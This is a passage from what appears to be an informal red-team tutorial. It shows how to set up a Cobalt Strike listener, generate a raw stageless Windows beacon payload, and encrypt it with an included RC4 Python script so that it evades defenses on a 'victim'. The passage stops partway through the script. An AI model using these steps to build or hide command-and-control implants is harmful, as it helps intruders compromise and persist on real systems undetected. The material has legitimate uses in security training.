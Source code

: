 Lets create our Listener first!! (its too important which protocol u will choose cauze u cannot use this port later!!) 

Cobalt Strike -> Listeners

![img-description](/assets/images/WhatsApp Image 2024-11-27 at 02.11.40.jpeg)

### Create Payload

Lets create paylaod rn under bin.

Payloads -> Windows Stageless Payload -> give ur Listener -> Output : Raw

![img-description](/assets/images/WhatsApp Image 2024-11-27 at 02.18.27.jpeg)

then its createad bin file.


    ➜  beacon ls -la
    total 312
    drwxrwxr-x 2 root root   4096 Nov 26 18:20 .
    drwxrwxr-x 3 root root   4096 Nov 20 18:18 ..
    -rw-rw-r-- 1 root root 307200 Nov 26 18:19 beacon_x64.bin
    -rw-rw-r-- 1 root root    830 Nov 20 18:00 rc4.py
    ➜  beacon

its too important to how many bytes is this (307200) cauze we will use later. 

### rc4.py

Alright our paylaod is ready but we have to modify something right. its because there is something powerfull behind the our victim. let's do RC4 encryption first  with this python script.

    import sys 

    def rc4(data, key):
        keylen = len(key)
        s = list(range(256))
        j = 0
        for i in range(256):
            j = (j + s[i] + key[i % keylen]) % 256
            s[i], s[j] = s[j], s[i]

        i = 0
        j = 0
        encrypted = bytearray()
        for n in range(len(data)):
            i = (i + 1) % 256
            j = (j + s[i]) % 256
            s[i], s[j] = s[j], s[i]
            encrypted.append(data[n] ^ s[(s[i] + s[j]) % 256])

        return encrypted

    if __name__ == "__main__":
        if len(sys.argv) != 3:
            print("Usage: ./rc4.py <key> <filename>")
            exit(0)
